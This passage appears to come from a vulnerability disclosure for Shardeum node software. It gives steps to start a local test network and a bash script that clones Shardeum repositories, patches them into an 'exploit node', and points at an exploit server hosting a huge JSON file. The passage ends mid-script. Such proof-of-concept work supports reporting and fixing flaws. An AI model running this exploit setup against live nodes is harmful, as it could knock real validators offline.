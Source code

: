 Start the network with for example with 9 consensus nodes (does not really matter, but low amount of nodes eases triggering the vulnerability later on). This should start Archiver, Monitor and 9 consensus nodes.
```
shardus start 9
```
Setup and install target JSON-RPC service and start it. https://github.com/shardeum/json-rpc-server?tab=readme-ov-file#developer-environment-setup

Setup and start Relay-Collector and Relay-Distributor services if you want the full experience (won't be utilized).

### Exploit node setup
In a separate directory, we'll create the exploit node. This includes repositories for shardus-core, shardeum and validator-cli. Setup the directory environment and apply exploit patches with the following script (remember to setup address variable for the exploit server). If you do not want to host the exploit server and file yourself, you can probably utilize 3rd-party download speed testing sites / files for an individual test case.

NOTE: I've tested the script from scratch on Debian 12 VM, but your mileage may vary depending on the box, as it's rather complex set of different components. If for some reason the script fails to deliver, you can just extract the patches from the echo lines and setup manually. If it totally fails, let me know to debug it.

NOTE: In the following script, setup the EXPLOIT_SERVER_ADDR to confrom with our environment!
```
#!/bin/bash

# BEFORE EXECUTING, SETUP EXPLOIT_SERVER_ADDR
EXPLOIT_SERVER_ADDR=http://192.168.0.100:8000/huge.json
echo "Set Exploit Server as $EXPLOIT_SERVER_ADDR"

# Setup directories, repositories and links
echo "Creating directory structure and cloning repositories..."
mkdir exploit_test
cd exploit_test
git clone https://github.com/shardeum/shardus-core
git clone https://github.com/shardeum/shardeum
git clone https://github.com/shardeum/validator-cli
ln -s shardeum validator

# Install, patch and compile shardus-core
echo "Setting up shardus-core..."
cd shardus-core

echo "diff --git a/src/network/index.ts b/src/network/index.ts
index ec6f9ad2..e95e9b27 100644
--- a/src/network/index.ts
+++ b/src/network/index.ts
@@ -108,6 +108,8 @@ export class NetworkClass extends EventEmitter {
   }
 
   customSendJsonMiddleware(req, res, next) {
+    // MODIFIED, commenting this prevents node crash upon attempting to set already sent headers
+    /*
     const originalSend = res.send;
     res.send = function (data) {
       if (typeof data === 'object' && data !== null) {
@@ -123,7 +125,7 @@ export class NetworkClass extends EventEmitter {
       res.setHeader('Content-Type', 'application/json')
       return originalSend.call(this, jsonString)
     }
-
+    */
     next()
```